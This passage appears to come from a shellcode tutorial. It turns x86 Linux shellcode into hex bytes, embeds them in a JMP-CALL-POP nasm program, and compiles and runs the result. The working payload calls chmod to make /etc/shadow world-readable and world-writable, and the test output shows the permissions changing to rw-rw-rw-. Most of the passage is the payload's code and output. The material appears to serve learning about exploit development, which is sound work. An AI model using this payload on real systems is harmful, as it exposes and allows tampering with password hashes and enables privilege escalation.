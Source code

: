 #### Generating the Hex in the `0x ,` Format

```console
root# python formatHex.py
Encoded shellcode ...
0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
0xcd,0x80
```
+ The `\<Return>` at the end was added after for formatting.
  - This format does work when compiling shellcode with `nasm`.
  - Nasm does not seem to care about `<space>` characters either.

### Adding the Shellcode to our `JMP|Call|POP` Assembly Program

```nasm
; Filename: jmpCallPop.nasm
; Author:  Bobby Cooke
global _start
section .text
_start:
; 1. Jump to where our Shellcode string is
  jmp short call_shellcode
decoder:
  pop esi
jmp2_shellcode:
; 3. Now that the memory location of our string is on the top of the
;     stack, we will pass control to it using the jmp instruction.
  pop eax
  jmp eax
call_shellcode:
; 2. Call to the instruction that will jump us into our Shellcode
;    - Call is like jump, but stores the memory location of the next
;       instruction onto the Stack; which is our Shellcode.
  call jmp2_shellcode
  shellcode: db 0x99,0x6a,0x0f,0x58,0x52,0xe8,0x0c,\
      0x00,0x00,0x00,0x2f,0x65,0x74,0x63,0x2f,0x73,\
      0x68,0x61,0x64,0x6f,0x77,0x00,0x5b,0x68,0xb6,\
      0x01,0x00,0x00,0x59,0xcd,0x80,0x6a,0x01,0x58,\
      0xcd,0x80
```
+ To get nasm syntax highlighting in Vim I used the command `:set syn=nasm`.

### Compiling our JMP|Call|POP Shellcode
```console
root# nasm -f elf32 jmpCallPop.nasm -o jmpCallPop.o
root# ld jmpCallPop.o -o jmpCallPop
```
### Testing our chmod Shellcode
```console
root# ls -l /etc/shadow
-rw-r----- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
root# ./jmpCallPop
root# ls -l /etc/shadow
-rw-rw-rw- 1 root shadow 1074 Sep  3 11:17 /etc/shadow
```
+ The payload will change the file `/etc/shadow` to the permissions `rw-rw-rw-`.
